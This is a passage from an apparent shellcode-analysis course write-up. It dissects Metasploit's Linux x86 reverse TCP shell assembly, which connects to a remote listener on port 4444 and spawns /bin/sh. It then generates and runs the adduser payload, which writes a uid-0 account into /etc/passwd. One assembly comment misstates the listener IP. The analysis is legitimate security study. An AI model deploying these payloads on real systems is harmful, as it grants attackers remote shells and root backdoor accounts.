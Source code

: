 The socket is then connected to the remote listener *172.23.10.37 / 4444*:

```nasm
push dword 0x250a17ac ; IP: 172.23.10.38
push dword 0x5c110002 ; Port: 4444
mov ecx,esp           ; socketcall() -> *args
mov al,0x66           ; sys_socketcall -> SYS_CONNECT
push eax              ; socklen_t addrlen = 66 
push ecx              ; const struct sockaddr *addr
push ebx              ; int sockfd = 3 (fd)
mov bl,0x3            ; ebx = 3 (SYS_CONNECT)
mov ecx,esp           ; socketcall() -> *args
int 0x80
```

`int execve(const char *filename, char *const argv[], char *const envp[])`

Once the socket is connected, `execve` is used to spawn a shell and since the descriptors have previously been duplicated the input and output will be redirected over the network.

```nasm
push edx              ; edx = 0
push dword 0x68732f6e ; //bin/sh
push dword 0x69622f2f ; [...]
mov ebx,esp           ; const char *filename -> /bin/sh
push edx              ;
push ebx              ;
mov ecx,esp           ; char *const argv[] -> /bin/sh
mov al,0xb            ; sys_execve
int 0x80
```

# Shellcode analysis #3: linux/x86/adduser
---------------------------------------

The `linux/x86/adduser` shellcode adds a new user to `/etc/passwd` with an arbitrary username and password. The password is encoded in traditional descrypt format directly in the file instead of `/etc/shadow`.

Creating the shellcode
```
slemire@slae:~/slae32/assignment5/3_adduser$ msfvenom -p linux/x86/adduser -f c -o adduser_shellcode USER=slae PASS=slae
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 91 bytes
Final size of c file: 409 bytes
Saved as: adduser_shellcode
```

Verifying that the shellcode works by adding a user `slae` with password `slae`
```
slemire@slae:~/slae32/assignment5/3_adduser$ gcc -z execstack -o shellcode shellcode.c
slemire@slae:~/slae32/assignment5/3_adduser$ sudo ./shellcode
[sudo] password for slemire: 
Size: 92 bytes.
slemire@slae:~/slae32/assignment5/3_adduser$ grep slae /etc/passwd
slae:AzH43ypX/zepc:0:0::/:/bin/sh
```
